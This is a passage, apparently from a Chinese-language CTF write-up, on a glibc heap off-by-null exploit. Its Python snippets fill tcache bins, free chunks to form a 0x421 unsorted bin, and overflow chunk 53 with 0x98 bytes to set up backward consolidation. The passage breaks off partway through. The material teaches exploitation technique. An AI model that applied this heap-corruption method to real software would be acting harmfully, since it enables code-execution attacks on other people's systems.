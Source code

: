 这里起始就是两个部分（辅助和功能堆块）

[![](https://p2.ssl.qhimg.com/t018b447fdc5bc210ff.png)](https://p2.ssl.qhimg.com/t018b447fdc5bc210ff.png)

其中辅助chunk是用来填充tcache的，我们知道想用到off-by-null还是要将tcache填满才行，

48-60是功能性堆块，其中&lt;u&gt;**57号**&lt;/u&gt;是后面进行向上合并的关键。

之后进行一系列的delete

```
#-------------------------
    #--tcache
    for i in range(0,7):#0x88
        delete(i)
    for i in range(14,21):#0xa8
        delete(i)
    for i in range(21,28):#0xb8
        delete(i)
    for i in range(35,42):#0xd8
        delete(i)
    for i in range(42,49):#0xe8
        delete(i)    
    #--tcache



    for i in range(52,57):
        delete(i)
    #----------------------------
```

生成一个大的unsortedbin

程序执行到这里会是一个unsorted bin,大小为0x421

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t015763a3a5cf485a10.png)

总体分布情况

[![](https://p2.ssl.qhimg.com/t0158e7d50c937ec876.png)](https://p2.ssl.qhimg.com/t0158e7d50c937ec876.png)

### <a class="reference-link" name="2%E3%80%81"></a>2、

之后先处理辅助chunk，申请了几个0x98

```
claim(0x88)
    claim(0xa8)
    claim(0xb8)
    claim(0xd8)
    claim(0xe8)

    #---------------------------------------------------------------- 上面是一个大的unsorted bin
    add(0x98)# 52   进行add之后unsortedbin 被放入了largebin 之后进行了分配
    add(0x98)# 53
    pay = 0x98 * "a"
    # # pause()
    # debug([0x1629])

    edit(53,pay)# off - by - null  这里做个对比吧
    add(0x88)#54
    add(0x88)#55
    add(0xd8)#56
```
